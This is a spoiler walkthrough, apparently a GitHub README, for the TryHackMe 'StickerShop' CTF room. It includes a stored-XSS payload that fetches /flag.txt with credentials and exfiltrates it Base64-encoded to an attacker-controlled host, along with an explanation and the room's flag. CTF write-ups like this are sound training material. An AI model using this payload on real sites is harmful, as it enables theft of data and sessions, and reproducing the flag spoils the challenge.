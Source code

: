 # StickerShop CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **StickerShop** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/thestickershop). 
---
We know that flag is located in `http://SITE_IP:8080/flag.txt`

![web](imgs/web.png "web")

Strting python server

```
python3 -m http.server 80
```
Testing the form for XSS with simple code in JS

```javascript
<script src="http://MY_MACHINE_IP:80/test"></script>
```

We captured response

![py1](imgs/py1.png "py1")

Modifying the script to obtain `flag.txt`

```JavaScript
<script>
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://MY_MACHINE_IP:80/' + btoa(text), {mode:'no-cors'}); 
  });
</script>

```
---
CODE EXPLENATION

This JavaScript code is an example of data exfiltration, meaning unauthorized theft of information from a server. Here’s how it works:

`fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})`  
Fetches the content of `/flag.txt` from the server.

- `method: 'GET'` means it's a request to retrieve data.

- `mode: 'no-cors'` disables standard Cross-Origin Resource Sharing (CORS) protection, making it harder to detect the attack.

- `credentials: 'same-origin'` ensures that cookies and authentication credentials (like session tokens) are sent along with the request.

`.then(response => response.text())` Waits for the server’s response and converts it into text.

`.then(text => { fetch('http://MY_MACHINE_IP:80/' + btoa(text), {mode:'no-cors'}); });`

- Once the `/flag.txt` content is retrieved, it is Base64 encoded `(btoa(text))`.

- Then, the encoded data is sent to an external server `(http://MY_MACHINE_IP:80/)`, controlled by the attacker.

- `mode: 'no-cors'` prevents the browser from blocking the request.

END OF CODE EXPLENATION
---

![py2](imgs/py2.png "py2")

Now we need to decode this weird string `VEhNezgzNzg5YTY5MDc0ZjYzNmY2NGEzODg3OWNmY2FiZThiNjIzMDVlZTZ9` from base64

The flag is: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`

# FLAG OBTAINED
